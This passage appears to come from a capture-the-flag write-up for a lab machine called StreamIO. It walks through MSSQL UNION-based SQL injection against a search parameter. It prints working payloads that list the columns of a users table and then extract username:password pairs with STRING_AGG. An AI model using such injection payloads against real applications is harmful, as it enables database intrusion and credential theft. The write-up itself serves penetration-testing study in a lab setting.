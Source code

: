 <figure><img src="../../.gitbook/assets/streamio_enum_tables.png" alt=""><figcaption><p>Figure 17: Enumerating all table names and IDs from the <code>streamio</code> database.</p></figcaption></figure>

From the tables listed, `users` seems the most interesting one. We will use its id (`901578250`) to list all of its columns (Figure 18).

```sql
/* enumerate table's columns */
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM streamio..syscolumns WHERE id=901578250--
```

<figure><img src="../../.gitbook/assets/streamio_enum_columns.png" alt=""><figcaption><p>Figure 18: Listing all columns of the <code>users</code> table.</p></figcaption></figure>

There are only 4 columns within `users`; `username` and `password` seem the most logical to exfiltrate the data from (Figure 19).

{% code overflow="wrap" %}
```sql
/* exfiltrate data */
q=anger1' UNION SELECT 1,(SELECT STRING_AGG(CONCAT(username,':',password),'|') FROM users),3,4,5,6--
```
{% endcode %}
